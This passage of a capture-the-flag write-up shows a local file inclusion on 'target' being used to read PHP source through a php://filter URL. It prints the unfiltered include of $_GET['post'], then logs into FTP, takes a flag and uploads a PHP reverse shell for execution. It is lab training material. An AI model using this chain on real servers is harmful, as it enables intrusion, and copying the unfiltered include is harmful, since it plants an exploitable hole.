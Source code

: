 Then, I tried to get the post.php source code to see if there where any filtering, or if I could use it to load any file. 

Loading  http://target/post.php?post=php://filter/convert.base64-encode/resource=post.php gave me the PHP source code encoded in base64. I decoded it, and saw the there is no filtering. You can load any file from the server. 

```php
<div class="col-8">
  <?php include $_GET["post"]; ?>
</div>
```

## Getting a Shell
Now I knew I could use the FTP server to upload a file, then execute it on the server through the LFI vulnerability. 

```bash
ftp target
Connected to target.
220 (vsFTPd 3.0.3)
Name (target:ehogue): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-xr-x    3 65534    65534        4096 Dec 03 01:58 .
dr-xr-xr-x    3 65534    65534        4096 Dec 03 01:58 ..
drwxr-xr-x    2 1001     1001         4096 Dec 03 03:30 files
-rw-r--r--    1 0        0              21 Dec 03 01:58 flag_2.txt
226 Directory send OK.
ftp> get flag_2.txt
local: flag_2.txt remote: flag_2.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag_2.txt (21 bytes).
226 Transfer complete.
21 bytes received in 0.00 secs (84.0484 kB/s)
```

We found the second flag in the FTP server. We also see that the files folder is writable, so we can push our reverse shell there. 

I use the PHP reverse shell that is available in Kali at `/usr/share/webshells/php/php-reverse-shell.php`. 

```ftp
ftp> cd files 
250 Directory successfully changed.
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (5.8002 MB/s)
```
